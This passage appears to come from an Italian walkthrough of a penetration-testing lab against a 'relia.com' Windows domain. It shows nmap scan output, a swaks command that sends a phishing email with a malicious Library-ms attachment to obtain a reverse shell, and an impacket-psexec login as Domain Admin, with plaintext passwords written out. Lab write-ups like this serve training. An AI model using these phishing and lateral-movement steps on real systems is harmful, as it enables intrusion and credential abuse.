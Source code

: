 ```bash
OS:%GCD=1%ISR=10C%TI=I%TS=A)OPS(O1=M551NW8ST11%O2=M551NW8ST11%O3=M551NW8NNT
OS:11%O4=M551NW8ST11%O5=M551NW8ST11%O6=M551ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF
OS:%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=Y%DF=Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T
OS:1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T
OS:=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=80%IPL=164%
OS:UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=D6AE%RUD=G)IE(R=N)

Network Distance: 4 hops
Service Info: Host: MAIL; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-20T08:33:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: -8s
```

Con le credenziali ottenuti cercando tra i log del repository git presente sulla macchina 249 LEGACY, cerco di inviare un email di phishing agli utenti jim e damian.

Per farlo ho bisogno di costruire un file config.Library-ms malevolo.

Utilizzo quindi la macchina windows per crearlo:

```bash
sudo swaks -t damian@relia.com -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.188.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap --auth-user maildmz@relia.com --auth-password DPuBT9tGCBrTbR
```

In questo modo ottengo una reverse-shell per la macchina 14.

Una volta trovate le credenziali del Domain Admin sulla macchina 21, utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@192.168.205.191
```

## 192.168.X.191 - LOGIN {pwned:proof}

```bash
nmap -sC -sV -O -p- 192.168.X.191
```

```bash
Nmap scan report for 192.168.204.191 (192.168.204.191)
Host is up (0.035s latency).
Not shown: 65520 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: 401 - Unauthorized: Access is denied due to invalid credentials.
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=192.168.204.191
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-05-20T08:33:12+00:00; -7s from scanner time.
| ssl-cert: Subject: commonName=login.relia.com
| Not valid before: 2024-05-11T16:18:53
|_Not valid after:  2024-11-10T16:18:53
| rdp-ntlm-info: 
```